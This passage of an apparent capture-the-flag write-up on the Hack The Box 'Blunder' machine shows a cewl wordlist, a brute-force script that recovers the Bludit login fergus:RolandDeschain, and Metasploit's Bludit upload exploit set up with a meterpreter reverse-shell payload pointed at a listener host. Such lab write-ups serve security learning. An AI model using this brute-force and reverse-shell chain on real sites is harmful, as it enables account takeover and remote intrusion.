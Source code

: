 We can use cewl on the site to generate a wordlist.

```
snowscan@kali:~/htb/blunder$ cewl http://blunder.htb > cewl.txt
```

Next, bruteforcing...

```
snowscan@kali:~/htb/blunder$ chmod +x b.py 
snowscan@kali:~/htb/blunder$ ./b.py cewl.txt
[*] Trying: CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
[*] Trying: the
[...]
[*] Trying: character
[*] Trying: RolandDeschain

SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```

## Getting a shell

We can use Metasploit to get a shell with `linux/http/bludit_upload_images_exec`

```
msf5 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.29      yes       The listen address (an interface may be specified)
   LPORT  80               yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2
```
